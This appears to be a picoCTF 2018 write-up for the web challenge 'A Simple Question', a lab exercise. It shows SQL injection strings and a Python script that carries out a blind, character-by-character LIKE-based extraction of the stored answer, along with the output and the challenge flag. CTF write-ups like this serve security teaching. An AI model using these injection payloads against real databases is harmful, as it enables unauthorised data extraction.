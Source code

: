 ```yaml
---
layout: writeup
title: 'Web Exploitation 650: A Simple Question'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{qu3stions_ar3_h4rd_d3850719}
---
```

## Challenge

There is a website running at http://2018shell1.picoctf.com:36052
(link). Try to see if you can answer its question.

## Solution

we get a form looking for an answer

![](writeupfiles/simplequestion.png)

if we enter a value of `a` we are given the SQL statement constructed
and message that we were wrong.

![](writeupfiles/simplequestion_wrong.png)

Let's see what happens when we enter `' or 'x'='x`

![](writeupfiles/simplequestion_close.png)

ok, so we get a different message if the query returns something, this
we can use.  
We can give an snwer like `' OR answer LIKE 'a%` to test if it starts
with a letter a, and build up answer like that. Since this will takea
while, we script it

    import requests
    import string
    
    url="http://2018shell1.picoctf.com:36052/answer2.php"
    alphabet=string.printable.replace('%','').replace("'",'')
    password=''
    
    stop = False
    while not stop:
        for c in alphabet:
            params = {'answer': "' OR answer LIKE '"+password+c+"%", 'debug': '1'}
            r = requests.post(url, data=params)
    
            if "so close" in r.text:
                password += c
                print("letter found! "+password)
                break
            elif "Wrong" not in r.text:
                stop = True
                print(r.text)
                break
    
    print(password)
{: .language-python}

this outputs

    letter found! 4
    letter found! 41
    letter found! 41a
    letter found! 41an
    letter found! 41and
    letter found! 41ands
    letter found! 41andsi
    letter found! 41andsix
    letter found! 41andsixs
    letter found! 41andsixsi
    letter found! 41andsixsix
    letter found! 41andsixsixt
    letter found! 41andsixsixth
    letter found! 41andsixsixths

but now what..? this is not the flag, nor the answer to put in the form.
Nor is `42`

turns out the query wasn't case sensitive, and the answer we are looking
for is  
`41AndSixSixths`. When we put that in the form we get the flag:

    SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'
    
    Perfect!
    
    Your flag is: picoCTF{qu3stions_ar3_h4rd_d3850719}

